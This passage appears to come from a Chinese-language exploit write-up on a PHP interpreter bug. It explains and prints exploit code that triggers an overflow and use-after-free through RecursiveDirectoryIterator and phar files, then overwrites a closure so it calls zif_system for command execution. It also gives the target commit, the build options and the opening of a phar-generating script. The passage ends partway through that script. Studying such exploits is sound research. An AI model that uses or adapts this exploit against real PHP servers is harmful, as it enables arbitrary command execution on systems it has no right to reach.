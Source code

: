 依然是不断修改`sub_path`让其正好落在我们的申请某个`zend_string`开头，

```php
while (1) {
    // init sub_path
    $it = create_RDI();
    $sub_it = $it->getChildren();

    // trigger overflow
    foreach($sub_it as $file) {}

    $data = $sub_it->getSubPath();
    if (substr($data, 0x18, 8) == "ILIKEPHP") {
        // trigger UAF
        unset($sub_it);
        $f = function(){};
        break;
    } else {
        // prevent double freeing
        $it_arr[] = $sub_it;
    }
}
```

然后修改我们可控的`zend_string`结构，达到修改闭包函数的任务

```php
for ($i = 0; $i < 0x2024; $i++) {
    // 1. function type: internal function
    // zend_closure.function.internal_function.type = 0x38
    // zend_string_header = 0x18
    write8($str_arr[$i], 0x38 - 0x18, 0);

    // 2. function handler: zif_system
    // zend_closure.function.internal_function.handler = 0x70
    // zend_string_header = 0x18
    write64($str_arr[$i], 0x70 - 0x18, $zif_system);
}
```

#### 完整的 Exploitation

位于\[3\].

PHP 版本 commit: `be71cadc2f899bc39fe27098042139392e2187db`

编译选项：`./configure --disable-all --enable-phar`

**gen\_phar.php**

```php
<?php

if (file_exists("m2.phar")) {
    unlink("m2.phar");
}

$phar = new Phar('m2.phar');

// size of target UAF bin is the size of zend_closure
$dir_name = str_repeat('C', 0x140 - 0x1);
$file_4096 = str_repeat('A', PHP_MAXPATHLEN - 1).'B';

// create an empty directory
$phar->addEmptyDir($dir_name);

// create normal one
```